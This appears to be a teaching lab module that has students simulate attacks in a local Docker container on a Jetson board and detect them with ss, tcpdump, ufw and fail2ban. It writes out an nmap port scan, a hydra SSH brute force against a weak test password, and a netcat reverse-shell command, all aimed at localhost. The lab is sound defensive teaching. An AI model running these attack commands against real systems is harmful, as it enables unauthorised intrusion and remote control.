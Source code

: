 💣 Simulated Attacks & Detection on Jetson

🎯 Purpose

This module introduces basic offensive cybersecurity concepts in a safe, controlled container environment. Students simulate attacks and practice detection using the same Linux tools used for defense.

⚠️ These exercises should only be done in isolated or approved lab environments.

⸻

🔧 Tools Overview (Used for Simulation)

Tool	Purpose
nmap	Port scanning and host discovery
hydra	Brute-force login attacks
netcat	Port listener / reverse shell testing
tcpdump	Capture and analyze traffic
fail2ban	Block brute-force attempts
ufw	Block/allow ports and IPs


⸻

🐳 Container Setup for Simulation

Use a Docker container to safely run both attacks and detection tools.

Step 1: Create a container with all tools

docker run -it --rm --network host --name cyberlab \
  -v $(pwd)/labdata:/labdata \
  ubuntu:22.04 /bin/bash

Step 2: Install required tools inside the container

apt update && apt install -y nmap netcat tcpdump ufw fail2ban hydra openssh-server

Set a test password for SSH access:

echo 'student:password123' | chpasswd
service ssh start


⸻

⚔️ Simulated Attack Scenarios

🔎 1. Port Scanning with nmap

nmap -sS -p- 127.0.0.1

Use ss on the host to detect:

ss -tulnp

🔑 2. Brute Force with hydra

hydra -l student -P /labdata/common_passwords.txt ssh://127.0.0.1

Simultaneously monitor with:

tail -f /var/log/auth.log

🐚 3. Reverse Shell Simulation with netcat

On host:

nc -lvnp 4444

In container:

nc 127.0.0.1 4444 -e /bin/bash

Use tcpdump on the host:

sudo tcpdump -i lo port 4444


⸻

🧱 Defense Tools in Action

🛡️ Use ufw to block incoming attacks

ufw enable
ufw deny 22

🚫 Use fail2ban to ban after failed SSH login

cat /etc/fail2ban/jail.conf | grep ssh
systemctl start fail2ban

Check bans:

fail2ban-client status sshd


⸻

🧪 Lab Session: Simulate & Detect in Container

✅ Objective
	•	Simulate port scanning, brute force, and shell attacks
	•	Monitor with defense tools
	•	Practice response and cleanup

🛠️ Workflow
	1.	Launch the container
	2.	Start SSH and monitoring tools
	3.	Simulate scan + brute force
	4.	Use fail2ban, ufw, and tcpdump to detect and respond

📋 Deliverables
	•	Screenshots of hydra, tcpdump, and fail2ban in action
	•	Summary: which tools detected which attacks

⸻

🔐 Ethical Reminder
	•	Never attack real systems without permission
	•	These skills are for learning defense and securing your own systems

⸻

Next: CNN + Image Processing on Jetson →